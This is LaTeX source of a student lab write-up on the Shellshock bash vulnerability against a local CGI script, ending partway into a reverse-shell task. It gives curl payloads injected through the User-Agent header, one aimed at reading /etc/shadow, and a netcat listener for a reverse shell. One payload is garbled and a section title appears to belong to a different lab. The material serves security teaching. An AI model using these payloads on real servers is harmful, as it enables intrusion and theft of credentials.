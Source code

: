 \documentclass[14pt]{extarticle}
\begin{document}
\section{Task 4: Attack with UPDATE statement}
In this task I will attempt to run commands remotely on the server. Due to a bug in bash, when environment variables are loaded, they can be executed too. This creates a vulnerability to execute code on the shell's creation by setting the malicious code as a variable. This is the vulnerability that shellshock exploits. Since the cgi program retrieves it's variables from the apache program, and the apache program generates those variables from the http header requests, an attacker can inject malicious code in the http headers to set environment variables in the cgi program.\\
For this attack I will be setting the exploit code in the user-agent in a curl call as follows:
\begin{lstlisting}[language=sh]
curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/ls -l "http://localhost/cgi-bin/env.cgi
\end{lstlisting}
This command will a run the ls -l command which will output the contents of the default directory for the given shell
\begin{lstlisting}[language=sh]
curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" http://localhost/cgi-bin/env.cgi
\end{lstlisting}
This command will attempt to output the data inside of the /etc/shadow file on the server. This returns nothing in this command since the /etc/shadow file is not accessible by the user that the cgi program executes in.

\section{Task 5: Preforming the attack}
Now that I can execute commands on the remote server, I can create a shell and run commands through the shell. This is a tricky task because a bash shell requires a stdin and stout. Which creates a problem when since I will not be able to send or receive data from the newly created shell. To allow the shell to send and receive data, I can set the stdin and stdout to use a tcp connection to my attacker device. Since I will be running this attack on a vm, I will use two separate terminals (one to listen for a connection, and one to run the curl command). I'll keep one terminal listening for incoming tcp connections on port 8080 using the netcat command
\begin{lstlisting}[language=sh]
nc -l 8080 -v
\end{lstlisting}
\end{document}
